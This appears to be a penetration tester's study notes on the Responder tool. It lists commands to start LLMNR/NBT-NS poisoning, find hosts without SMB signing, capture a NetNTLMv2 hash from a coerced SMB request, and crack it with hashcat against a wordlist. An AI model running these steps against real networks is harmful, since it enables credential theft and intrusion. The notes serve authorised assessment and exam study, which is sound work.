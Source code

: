 Cannot use in the OSCP Exam. Fun to use on assessments.
Note: Multirelay.py does not work in python3 since the UserDict library has been depricated

# Source: https://github.com/lgandx/Responder

## Make changes to config to turn off services:

nano /usr/share/responder/Responder.conf

## Starting Responder:

- responder -I \[Interface\] -A
- responder -I \[Interface\] -i \[IP Address\] or -e \[External IP\] -A

## Tools in Responder:

Location: /usr/share/Responder/tools

## Check for systems with SMB Signing not enabled

- python3 RunFinger.py -i 172.21.0.0/24

#
# Responder
```
sudo responder -v -F -w -b  -I tun0
```
- [ ] setup the listener
![728e160513423988dc5d56f929211e65.png](../../../_resources/728e160513423988dc5d56f929211e65.png)

- [ ] Make smb request to local From commandline on remote system 
![76fefa07be090e51ffe1d6d885c6a74b.png](../../../_resources/76fefa07be090e51ffe1d6d885c6a74b.png)

- [ ] Responder Captures, write to file on local machine 
![a80e86b5957da2d1a3611f16510fb5e0.png](../../../_resources/a80e86b5957da2d1a3611f16510fb5e0.png)

 - [x] Find hashcat value and execute
`hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force`
 ![cff3e9a4bb2cce394a70e5b37895be7c.png](../../../_resources/cff3e9a4bb2cce394a70e5b37895be7c.png)

***Finished***

![0d2f3ffe9e7aafeb1ea076b1dac22af4.png](../../../_resources/0d2f3ffe9e7aafeb1ea076b1dac22af4.png)


 
 